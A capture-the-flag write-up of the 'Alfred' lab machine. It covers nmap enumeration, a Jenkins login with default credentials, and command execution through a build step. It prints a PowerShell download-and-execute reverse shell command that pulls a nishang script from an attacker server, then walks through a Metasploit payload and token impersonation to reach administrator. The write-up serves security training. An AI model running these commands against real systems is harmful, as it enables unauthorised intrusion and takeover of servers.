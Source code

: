 # Enumeration

We start by using autorecon to quickly enumerate the ports and services.
`autorecon 10.10.113.61`
![dd9a13071c8461374b509e37a2a4db10.png](/Alfred/_resources/dd9a13071c8461374b509e37a2a4db10-1.png)

For more details, we can either check the logs given by the autorecon output, or we can run nmap:
`nmap -T5 -sC -A --osscan-guess --version-all -Pn -p 80,3389,8080 10.10.113.61`
![d2a50d4cf74f5a244a7680b0df2a2150.png](/Alfred/_resources/d2a50d4cf74f5a244a7680b0df2a2150-1.png)

We find http running on port 80. Going to http://10.10.113.61 gives us:

![267168277d1f6e20a4463412e48bd9ae.png](/Alfred/_resources/267168277d1f6e20a4463412e48bd9ae-1.png)

Nothing notable appears in the page source. Navigating instead to 10.10.113.61:8080 gives a Jenkins login page:
 

![783d158db4d546b2ab0ee049ae1b578c.png](/Alfred/_resources/783d158db4d546b2ab0ee049ae1b578c-1.png)
 

Once again, the page source doesn't reveal much. Trying the default credentials admin:admin gets us into the Jenkins dashboard:
 

![a527de0ee349e6fcddcbed81db4914a8.png](/Alfred/_resources/a527de0ee349e6fcddcbed81db4914a8-1.png)
 

We're looking for a feature which allows us execute commands on the underlying system. At the bottom of the webpage, we see an active build named "project":
 

![099c38f39b1e062b9fc7d6a99fdb0aca.png](/Alfred/_resources/099c38f39b1e062b9fc7d6a99fdb0aca-1.png)
 

Navigating to the configuration settings for this project, we find the following relevant build step:
 

![df922b933258d49ab554fed97c44158e.png](/Alfred/_resources/df922b933258d49ab554fed97c44158e-1.png)
 

This looks promising! Notice that `whoami` is the default command listed here. We can verify that this works by navigating to the project homepage, clicking on "Build Now", and then viewing the console output for build #2:
 

![797385c50a81e61038bb31d4f5b2e491.png](/Alfred/_resources/797385c50a81e61038bb31d4f5b2e491-1.png)

![e97e8388278e65592a74888c08abfb87.png](/Alfred/_resources/e97e8388278e65592a74888c08abfb87-1.png)
 

<br>

# Exploitation

We will make use of the [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) provided in the exerise. We first set up a web server on port 9999:
 

![d135c1b5422b75eb6d5b67c8c0f4a092.png](/Alfred/_resources/d135c1b5422b75eb6d5b67c8c0f4a092-1.png)
 

Set up a netcat listener on a different port with ``nc -lvnp 8888`` then execute the following command

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://LOCAL_IP:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 8888
```

using the feature we found in the enumeration phase. Our netcat listener will catch the reverse shell, giving us initial access to the machine.
 

![1572bfd20feeccdf3a2075f2160176fe.png](/Alfred/_resources/1572bfd20feeccdf3a2075f2160176fe-1.png)
 

Digging around, we eventually find the user.txt file in ``C:\Users\bruce\Desktop``.
 

![9ca6197a960a87ec9973d760e8b3c825.png](/Alfred/_resources/9ca6197a960a87ec9973d760e8b3c825-1.png)
 

Using ``type user.txt`` gives us our flag.

As part of Task 2, we are asked to switch to a meterpreter shell in order to facilitate easier privilege escalation. We generate an x86-64 reverse shell using msfvenom:
 

![00cf123b41d92301f44b5cc4ab6244ba.png](/Alfred/_resources/00cf123b41d92301f44b5cc4ab6244ba-1.png)
 

Note that this gives us the answer to the only question in Task 2. We download the .exe file on the target machine using the same technique used in Task 1. Now set up a handler in Metasploit with ``use exploit/multi/handler`` with the following options:
 

![e18242f0bff037e0f026b24a82b01662.png](/Alfred/_resources/e18242f0bff037e0f026b24a82b01662-1.png)
 

Now ``run``  to start the reverse TCP handler. On our target machine, we navigate to the directory containing our msfvenom payload and execute  ``Start-Process task2shell.exe`` . This gives us a meterpreter session:
 

![aeab9f9383a0bda9bdecac00b6f03c87.png](/Alfred/_resources/aeab9f9383a0bda9bdecac00b6f03c87-1.png)
 

(Note: The target IP is a bit different here, as I had to reset the machine.)

<br>

# Post-exploitation

With our upgraded meterpreter shell, we can now try to escalate privileges. The main technique used here is that of [token impersonation](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens). Start by using ``shell powershell`` within our meterpreter shell. Running ``whoami /priv`` gives us a list of privileges and their states:
 

![8c6e13bcd9ca329caaf95caf839ca559.png](/Alfred/_resources/8c6e13bcd9ca329caaf95caf839ca559-1.png)
 

Note that a few privileges are enabled. Exit out to meterpreter and use the incognito module, then use ``list_tokens -g`` to list all available delegation and impersonation tokens.
 

![d7e82c70ea426de69a6169973870ebb6.png](/Alfred/_resources/d7e82c70ea426de69a6169973870ebb6-1.png)
 

Since the BUILTIN\Administrators token is available, we can impersonate it:
 

![7f63634cce1c105e8dcc5fe64050eb8a.png](/Alfred/_resources/7f63634cce1c105e8dcc5fe64050eb8a-1.png)
 

Using ``getuid`` confirms that we have successfully impersonated the above user, which answers the third question of Task 3. Next, we want to migrate to a process with the correct permissions. Using ``ps`` gives us some possibilities:
 

![87307fc3f9141c3f191b71b29ed05ae4.png](/Alfred/_resources/87307fc3f9141c3f191b71b29ed05ae4-1.png)
 

Migrate to the services.exe process using `migrate 668`. This gives us the correct permissions. We can now `cd` into the config directory and `cat root.txt` to get the final flag. Alternatively, we can drop into a shell and `type root.txt`.
 

![8cc2de1e9c169473bb79a83fc6ca9c81.png](/Alfred/_resources/8cc2de1e9c169473bb79a83fc6ca9c81-1.png)
 